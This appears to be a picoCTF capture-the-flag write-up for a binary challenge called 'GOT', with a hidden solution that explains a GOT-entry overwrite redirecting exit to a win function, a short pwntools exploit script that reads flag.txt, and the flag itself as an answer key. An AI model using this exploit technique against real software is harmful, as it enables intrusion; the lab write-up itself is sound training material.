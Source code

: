 # GOT
### 📄 Description
Can you spawn a shell and get the flag?


### ⚙ How to run it
```bash
./auth
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
We have a trivial write-what-where, using that we can overwrite one of the GOT entries in order to get the program to call the function that we want, in this case `win`.


```python
from pwn import *

context.binary = "./auth"
p = process()

p.sendline(hex(context.binary.got["exit"]).encode("ascii"))
p.sendline(hex(context.binary.functions["win"].address).encode("ascii"))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
```
</details>
